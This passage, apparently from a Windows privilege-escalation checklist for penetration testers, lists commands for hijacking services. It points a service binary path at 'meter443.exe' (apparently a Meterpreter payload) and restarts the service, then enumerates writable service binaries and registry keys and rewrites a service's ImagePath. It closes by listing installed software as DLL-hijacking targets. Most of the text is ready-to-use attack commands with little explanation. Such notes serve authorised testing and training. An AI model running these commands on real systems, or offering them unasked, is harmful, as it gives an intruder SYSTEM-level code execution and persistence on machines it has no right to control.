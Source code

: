     # example using SSDPRV
     sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
     
     # then restart the service
     wmic service NAMEOFSERVICE call startservice
     net stop [service name] && net start [service name]
    ```

    * [ ] DLL Hijacking / Overwrite service binary



    ```
     for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

     for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
     
     # do it by using sc
     sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
     FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
     FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
    ```

    * [ ] Registry modify permissions

```
 reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

 #Try to write every service with its current content (to check if you have write permissions)
 for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

 get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

 # if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
 # it can be leveraged to change the binary path inside the registry
 reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

*   Installed applications

    * [ ] DLL Hijacking for installed applications



    ```
     dir /a "C:\Program Files"
     dir /a "C:\Program Files (x86)"
     reg query HKEY_LOCAL_MACHINE\SOFTWARE
